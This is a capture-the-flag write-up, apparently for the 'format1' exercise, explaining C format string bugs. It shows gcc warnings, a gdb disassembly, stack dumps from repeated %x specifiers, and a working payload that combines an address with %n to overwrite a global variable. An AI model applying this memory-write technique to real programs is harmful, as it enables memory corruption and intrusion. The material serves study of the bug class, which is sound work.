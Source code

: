 If no argument being specified, whilst there is the format specifiers, then the format specifiers will be used by the user to leaked the memory, potentially write to memory when using %n.

> Code  such  as  printf(foo);  often indicates a bug, since foo may contain a % character.  If foo comes from untrusted user input, it may contain %n, causing the printf() call to write to memory and creating a security hole.

We can rephrase it maybe like "if foo contains any % characters and they aren't meant to be format specifiers, the program could crash or behave unpredictably. This is especially problematic if foo comes from user input, as a user could intentionally insert format specifiers".

Consider this simple example:
```c
char *foo = "Hello, %p!";
printf(foo);  // Bug: There's no argument for %p
```
when compile the program, it will produce a warning:
```bash
$ gcc test.c -o test
test.c: In function ‘main’:
test.c:6:9: warning: format not a string literal and no format arguments [-Wformat-security]
    6 |         printf(foo);  // Bug: There's no argument for %p
      |         ^~~~~~
```
try to run the program:
```bash
 ./test 
Hello, 0x7ffed437ce08!
```
well it leaks something, and that is bad. 

```as
(gdb) disas vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:	push   ebp
0x080483f5 <vuln+1>:	mov    ebp,esp
0x080483f7 <vuln+3>:	sub    esp,0x18
0x080483fa <vuln+6>:	mov    eax,DWORD PTR [ebp+0x8]
0x080483fd <vuln+9>:	mov    DWORD PTR [esp],eax
0x08048400 <vuln+12>:	call   0x8048320 <printf@plt>
0x08048405 <vuln+17>:	mov    eax,ds:0x8049638
0x0804840a <vuln+22>:	test   eax,eax
0x0804840c <vuln+24>:	je     0x804841a <vuln+38>
0x0804840e <vuln+26>:	mov    DWORD PTR [esp],0x8048500 ;"you have modified the target :)"
0x08048415 <vuln+33>:	call   0x8048330 <puts@plt>
0x0804841a <vuln+38>:	leave  
0x0804841b <vuln+39>:	ret    
End of assembler dump.
```
Back to the challenge, we are supposed to modify the global variable `target` to win the challenge. In assembly `target` is shown in instruction `<vuln+17>:mov eax,ds:0x8049638`.

Since we know `printf` allows us to specify anything, then we can try to leak something in the memory:
```bash
$ ./format1 "`python -c "print('%x '*200)"`"
804960c bffff588 8048469 b7fd8304 b7fd7ff4 bffff588 8048435 bffff754 b7ff1040 804845b b7fd7ff4 8048450 0 bffff608 b7eadc76 2 bffff634 bffff640 b7fe1848 bffff5f0 ffffffff b7ffeff4 804824d 1 bffff5f0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff608 1e83e0c7 34d0b6d7 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff634 8048450 8048440 b7ff1040 bffff62c b7fff8f8 2 bffff74a bffff754 0 bffff9ad bffff9bb bffff9cf bffff9f2 bffffa05 bffffa0f bffffeff bfffff3d bfffff51 bfffff68 bfffff79 bfffff81 bfffff91 bfffff9e bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 178bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff72b 1f bffffff2 f bffff73b 0 0 0 45000000 6099d3fa f8dc70b4 a157f3f5 69743615 363836 0 0 2f2e0000 6d726f66 317461 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 
```

Appearing 
```bash
$ ./format1 "$(python -c "print('\x38\x96\x04\x08'+'%x '*130+'%x')")" | grep --color=always -e "^" -e "8049638"
8804960c bffff658 8048469 b7fd8304 b7fd7ff4 bffff658 8048435 bffff820 b7ff1040 804845b b7fd7ff4 8048450 0 bffff6d8 b7eadc76 2 bffff704 bffff710 b7fe1848 bffff6c0 ffffffff b7ffeff4 804824d 1 bffff6c0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6d8 aa95d5ce 80c163de 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff704 8048450 8048440 b7ff1040 bffff6fc b7fff8f8 2 bffff816 bffff820 0 bffff9ad bffff9bb bffff9cf bffff9f2 bffffa05 bffffa0f bffffeff bfffff3d bfffff51 bfffff68 bfffff79 bfffff81 bfffff91 bfffff9e bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 178bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7fb 1f bffffff2 f bffff80b 0 0 0 5d000000 8a105697 858aabc dbd443f1 691cebca 363836 0 2f2e0000 6d726f66 317461 8049638 25207825 78252078 20782520
```

Not appearing
```bash
$ ./format1 "$(python -c "print('\x38\x96\x04\x08'+'%x '*132+'%x')")" | grep --color=always -e "^" -e "8049638"
8804960c bffff658 8048469 b7fd8304 b7fd7ff4 bffff658 8048435 bffff81a b7ff1040 804845b b7fd7ff4 8048450 0 bffff6d8 b7eadc76 2 bffff704 bffff710 b7fe1848 bffff6c0 ffffffff b7ffeff4 804824d 1 bffff6c0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6d8 ff84a060 d5d01670 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff704 8048450 8048440 b7ff1040 bffff6fc b7fff8f8 2 bffff810 bffff81a 0 bffff9ad bffff9bb bffff9cf bffff9f2 bffffa05 bffffa0f bffffeff bfffff3d bfffff51 bfffff68 bfffff79 bfffff81 bfffff91 bfffff9e bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 178bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7fb 1f bffffff2 f bffff80b 0 0 0 2000000 3081544d 5b8f8034 cd8fb0c2 69581ca4 363836 6f662f2e 74616d72 96380031 78250804 20782520 25207825 78252078 20782520 25207825 78252078
```

```bash
$ ./format1 "$(python -c "print('\x38\x96\x04\x08'+'%x '*126+'%x')")" | grep --color=always -e "^" -e "8049638"
8804960c bffff668 8048469 b7fd8304 b7fd7ff4 bffff668 8048435 bffff82c b7ff1040 804845b b7fd7ff4 8048450 0 bffff6e8 b7eadc76 2 bffff714 bffff720 b7fe1848 bffff6d0 ffffffff b7ffeff4 804824d 1 bffff6d0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6e8 4fd66ecf 6582f8df 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff714 8048450 8048440 b7ff1040 bffff70c b7fff8f8 2 bffff822 bffff82c 0 bffff9ad bffff9bb bffff9cf bffff9f2 bffffa05 bffffa0f bffffeff bfffff3d bfffff51 bfffff68 bfffff79 bfffff81 bfffff91 bfffff9e bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 178bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff80b 1f bffffff2 f bffff81b 0 0 0 b7000000 47a2ecef 9ed8581d 96f3b2d1 69bef39e 363836 2f2e0000 6d726f66 317461 8049638
```

Finally
```bash
$ ./format1 "$(python -c "print('\x38\x96\x04\x08'+'%x '*126+'%n')")" | grep --color=always -e "^" -e "8049638"
8804960c bffff668 8048469 b7fd8304 b7fd7ff4 bffff668 8048435 bffff82c b7ff1040 804845b b7fd7ff4 8048450 0 bffff6e8 b7eadc76 2 bffff714 bffff720 b7fe1848 bffff6d0 ffffffff b7ffeff4 804824d 1 bffff6d0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6e8 ad7e2f43 872ab953 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff714 8048450 8048440 b7ff1040 bffff70c b7fff8f8 2 bffff822 bffff82c 0 bffff9ad bffff9bb bffff9cf bffff9f2 bffffa05 bffffa0f bffffeff bfffff3d bfffff51 bfffff68 bfffff79 bfffff81 bfffff91 bfffff9e bfffffd4 bfffffe6 0 20 b7fe2414 21 b7fe2000 10 178bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff80b 1f bffffff2 f bffff81b 0 0 0 35000000 67552a87 b31e2949 e4c4a040 69bde701 363836 2f2e0000 6d726f66 317461 you have modified the target :)
```